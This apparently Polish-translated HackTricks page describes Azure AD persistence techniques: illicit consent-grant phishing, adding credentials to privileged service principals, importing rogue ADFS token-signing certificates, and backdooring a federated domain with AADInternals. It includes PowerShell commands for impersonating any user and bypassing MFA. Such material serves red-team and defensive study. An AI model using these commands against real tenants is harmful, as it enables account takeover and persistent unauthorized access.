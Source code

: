 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Domyślnie każdy użytkownik może zarejestrować aplikację w Azure AD. Możesz więc zarejestrować aplikację (tylko dla docelowego dzierżawcy), która potrzebuje uprawnień o wysokim wpływie z zgodą administratora (zatwierdź to, jeśli jesteś administratorem) - na przykład wysyłanie maili w imieniu użytkownika, zarządzanie rolami itp. To pozwoli nam na **wykonywanie ataków phishingowych**, które byłyby bardzo **owocne** w przypadku sukcesu.

Ponadto możesz również zaakceptować tę aplikację jako sposób na utrzymanie dostępu do niej.

### Applications and Service Principals

Z uprawnieniami Administratora Aplikacji, GA lub niestandardowej roli z uprawnieniami microsoft.directory/applications/credentials/update, możemy dodać poświadczenia (sekret lub certyfikat) do istniejącej aplikacji.

Możliwe jest **celowanie w aplikację z wysokimi uprawnieniami** lub **dodanie nowej aplikacji** z wysokimi uprawnieniami.

Interesującą rolą do dodania do aplikacji byłaby **rola administratora uwierzytelniania uprzywilejowanego**, ponieważ pozwala na **resetowanie hasła** Globalnych Administratorów.

Ta technika również pozwala na **obejście MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Dla uwierzytelniania opartego na certyfikatach

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Certyfikat podpisywania tokenów

Z **uprawnieniami DA** w lokalnym AD, możliwe jest utworzenie i zaimportowanie **nowych certyfikatów podpisywania tokenów** i **certyfikatów deszyfrowania tokenów**, które mają bardzo długi okres ważności. Pozwoli nam to **zalogować się jako dowolny użytkownik**, którego ImuutableID znamy.

**Uruchom** poniższe polecenie jako **DA na serwerze ADFS** w celu utworzenia nowych certyfikatów (domyślne hasło 'AADInternals'), dodania ich do ADFS, wyłączenia automatycznego obracania i ponownego uruchomienia usługi:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Następnie zaktualizuj informacje o certyfikacie w Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Zaufana domena

With GA privileges on a tenant, it's possible to **add a new domain** (must be verified), configure its authentication type to Federated and configure the domain to **trust a specific certificate** (any.sts in the below command) and issuer:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Odniesienia

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
